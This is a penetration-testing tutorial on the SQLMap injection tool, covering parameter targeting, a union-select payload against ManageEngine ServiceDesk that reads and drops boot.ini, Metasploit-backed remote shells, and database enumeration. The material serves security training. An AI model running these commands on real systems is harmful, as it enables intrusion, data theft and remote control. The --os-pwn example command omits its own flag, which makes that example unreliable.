 # SQLMap SQL Injection Tool
This module will cover the basics on using the SQL injection automation tool, [SQLMap](http://sqlmap.org/). This tool automates the SQL injection process once a vulnerability is found and can also often discover unknown SQL vulnerabilities in web applications.
## Vulnerability Discovery
This section will cover most of the vulnerability discovery methods that I have used during the penetration tests.
### Be Specific
The more specific we are to SQLMap the faster and more efficient it becomes. For instance, if we were to use the browser to test for a vulnerability manually and we see the error output specify that it is from a [MySQL](https://www.mysql.com/) service, we can then specify it to SQLMap to further attempt to exploit the discovered vulnerability as so,

`sqlmap -u http://x.x.x.x:x/?id=1 --dbms=mysql`

### Specifying Exact Parameter to Attack
This is more of a efficiency/optimization of the attack in which SQLMap can avoid looking for SQL injection vulnerabilities in parameters that we already know not to have them. Top specify which paramter to use, we use the `-p (PARAMETER NAME)` argument. For example, The URI, `http://x.x.x.x:x/files.do?fileName=file.txt&color=red&id=123`, has three HTTP GET parameters, `fileName`, `color`, and `id`. If we replaced the `id` parameter in the browser and noticed the DOM output had chnaged, we can test JUST this parameter with the `-p (PARAMETER NAME)` as,

`sqlmap -p id -u http://x.x.x.x:x/files.do?fileName=file.txt&color=red&id=123`

### Specifying Exact Injection Point
SQLMap provides a way to specify exactly where to attempt SQL injection. This can be very useful when building SQL injection exploits upon other, known, exploits for vulnerabilities.To do so, we use an asterisk, `*` in the URL provided to SQLmap as so,

`root@kali:/payloads# sqlmap --level=5 --risk=3 -p woID --dbms=mysql -u 'http://x.x.x.x:8080/WorkOrder.do?woMode=viewWO&woID=WorkOrder.WORKORDERID*=6)union%20select%201,2,3,4,5,6,7,8,load_file(%22c:\\boot.ini%22),10,11,12,13,14,15,16,17,18,19,1%20into%20dumpfile%27C:\\ManageEngine\\ServiceDesk\\applications\\extracted\\AdventNetServiceDesk.eear\\AdventNetServiceDeskWC.ear\\AdventNetServiceDesk.war\\images\\boot.ini.txt%27/' `

This example was taken from the already known exploit, [ManageEngine ServiceDesk Plus 7.6 - woID SQL Injection](https://www.exploit-db.com/exploits/11793/), and builds upon it by allowing SQLMap to inject other commands that do not include file content disclosure.

## Post Exploitation
This section will cover queries commonly performed during the Post Exploitation phase of the pnetration test of a database / web service/app. 
### OS-PWN
SQLMap has the ability to utilize the MetaSploit Framework in attempt to take remote control of the target system with a spawned shell. For this to work, we need to first know a few things,
1. A writeable directory on the target system
2. What (web) programming language does the system support
3. Where our Metasploit Framework is installed on our system

Here is an exmaple of using the `--os-pwn` function in SQLMap:

`root@wt:~# sqlmap -p id -u http://x.x.x.x:x/foo.do?id=45 --msf-path=/pwnt/exploitation/metasploit-framework/ --dbms=mysql --random-agent`

The output from SQLMap would be something similar to,

```
[08:06:06] [INFO] testing MySQL
[08:06:06] [INFO] confirming MySQL
[08:06:06] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL < 5.0.0
[08:06:06] [INFO] fingerprinting the back-end DBMS operating system
[08:06:06] [INFO] the back-end DBMS operating system is Windows
how do you want to establish the tunnel?
[1] TCP: Metasploit Framework (default)
[2] ICMP: icmpsh - ICMP tunneling
> 1
[08:06:09] [INFO] going to use a web backdoor to establish the tunnel
which web application language does the web server support?
[1] ASP (default)
[2] ASPX
[3] JSP
[4] PHP
> 3
do you want sqlmap to further try to provoke the full path disclosure? [Y/n] n
[08:06:13] [WARNING] unable to automatically retrieve the web server document root
what do you want to use for writable directory?
[1] common location(s) ('C:/xampp/htdocs/, C:/wamp/www/, C:/Inetpub/wwwroot/') (default)
[2] custom location(s)
[3] custom directory list file
[4] brute force search
> 2
please provide a comma separate list of absolute directory paths: C:\WINDOWS\Temp
```

Where you can see that I have specified the writeable directory on the target server, the programming language used by the vulnerabile web application, and to use the Metasploit Framework tunnel.

### OS-Shell
SQLMap has the ability to spawn remote shells on some vulnerable systems with a couple pieces of information:
1. A writeable directory on the target system
2. What (web) programming language does the system support
We perform this type of attack simply by using the `--os-shell` argument to SQLMap.

### Database Information Gathering
Most of the options for database discovery are pretty straight forward. Some steps to gathering the most of the database information would commonly be,
1. Get the Databse version
2. Get the current user of the web application / database queries
3. Get the database name
4. Get the tables in the database
5. Get the data (records) from these tables.
